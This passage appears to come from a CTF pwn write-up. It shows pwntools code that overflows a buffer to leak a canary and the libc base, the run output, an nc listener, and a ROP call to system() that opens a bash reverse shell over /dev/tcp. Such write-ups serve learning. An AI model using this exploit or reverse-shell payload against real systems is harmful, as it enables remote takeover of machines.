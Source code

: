 ```cpp
buf+=p16(0x30a+1+7+8)
buf+=b'moonlit_embrace\0'
buf+=(778+8-len(b'moonlit_embrace'))*b'A'
buf+=data[265:]
buf+=b'A'*8

io.send(buf)

data = io.recv()
libc.address=u64(data[264+8+8:].ljust(8, b'\0')) - 0x94ac3
log.info("libc.address: " + hex(libc.address))

```

Here is result:
```
╭─    ~/CTF/Pwnable/2023/wc2023/serendipity    master !1 ?38                                                                       1 ✘  w1n_gl0ry@phis1Ng ─╮
╰─ python3 remote.py                                                                                                                                               ─╯
[*] '/home/w1n_gl0ry/CTF/Pwnable/2023/wc2023/serendipity/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 0 on port 9981: Done
85026bdce60e5a253187b0a061854c0269225675b70fcadd25c7353058ffb4dd
b'auth successfully\n'
[*] canary: 0x89f7373a66e1cd00
[*] libc.address: 0x7f4413600000
[*] Switching to interactive mode
$  
```

We have successfully leaked. How can we get the shell through the UDP connection?

I use this method to execute a reverse shell:

* Listen on a port 1337:
```
╭─    ~/CTF/Pwnable/2023/wc2023/serendipity    master !1 ?38                                                                                           ✔  w1n_gl0ry@phis1Ng ─╮
╰─ nc -lnvp 1337                                                                                                                                                                     ─╯
Listening on 0.0.0.0 1337
```

* I use the system function in my ROP to execute a command.

```
system('bash -c \'exec bash -i &>/dev/tcp/0/1337 <&1\'')

```
